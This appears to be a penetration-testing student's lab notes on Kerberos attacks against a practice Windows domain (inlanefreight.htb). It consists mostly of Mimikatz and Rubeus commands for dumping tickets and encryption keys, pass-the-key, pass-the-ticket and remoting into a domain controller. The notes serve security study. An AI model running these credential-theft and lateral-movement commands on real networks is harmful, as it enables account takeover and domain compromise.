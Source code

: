 Dump tickets with mimikatz
	sekurlsa::tickets /export

Dump tickets with rubeus
	Rubeus.exe dump /nowrap

Dump all kerberos encryption keys
	sekurlsa::ekeys


Pass the Key(privilege::debug)

```cmd-session
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
![[Pasted image 20240916001923.png]]
```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```
https://github.com/GhostPack/Rubeus
![[Pasted image 20240916002039.png]]


PassTheTicket
```cmd-session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
![[Pasted image 20240916002837.png]]
```cmd-session
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
![[Pasted image 20240916002919.png]]


Powershell remoting
![[Pasted image 20240916010349.png]]
```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```
![[Pasted image 20240916010545.png]]

```cmd-session
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```


![[Pasted image 20240916010714.png]]

```cmd-session
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

Switching to Session on Domain Controller
```cmd-session
Enter-PSSession -ComputerName DC01
```




